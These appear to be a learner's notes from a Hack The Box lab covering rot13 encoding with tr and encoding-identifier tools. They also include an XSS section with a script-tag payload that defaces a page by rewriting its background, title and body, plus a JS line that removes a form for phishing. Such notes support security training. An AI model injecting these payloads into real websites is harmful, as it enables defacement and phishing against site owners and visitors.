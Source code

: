     ```
    KareemAlsadeq@htb[/htb]$ echo https://www.hackthebox.eu/ | tr 'A-Za-z' 'N-ZA-Mn-za-m'uggcf://jjj.unpxgurobk.rh/
    ```
    
    ### Rot13 Decode
    
    We can use the same previous command to decode rot13 as well:
    
    Rot13 Decode
    
    ```
    KareemAlsadeq@htb[/htb]$ echo uggcf://jjj.unpxgurobk.rh/ | tr 'A-Za-z' 'N-ZA-Mn-za-m'https://www.hackthebox.eu/
    ```
    
    - Another option to encode/decode rot13 would be using an online tool, like [rot13](https://rot13.com/).

  

  

  

  

- Some tools can help us automatically determine the type of encoding, like [Cipher Identifier](https://www.boxentriq.com/code-breaking/cipher-identifier). Try the encoded strings above with [Cipher Identifier](https://www.boxentriq.com/code-breaking/cipher-identifier), to see if it can correctly identify the encoding method.

## website defacing attacks

- defacement or defacing is to change the face of a website to change how it looks like to tell people that they hacked the website de_facing .
- Ways with JS to deface a website …
    - Background Color `document.body.style.background`
    - Background `document.body.background`
    - Page Title `document.title`
    - Page Text `DOM.innerHTML`
        
        ```
        <div></div><ul class="list-unstyled" id="todo"><ul><script>document.body.style.background = "\#141d2b"</script></ul><ul><script>document.title = 'HackTheBox Academy'</script></ul><ul><script>document.getElementsByTagName('body')[0].innerHTML = '...SNIP...'</script></ul></ul>
        ```
        
          
        

## Phishing :

- to remove an html object via a JS payload use this command
    - in case the object’s id is urlform and we want to remove it :
        
        ```
        document.getElementById('urlform').remove();
        ```
        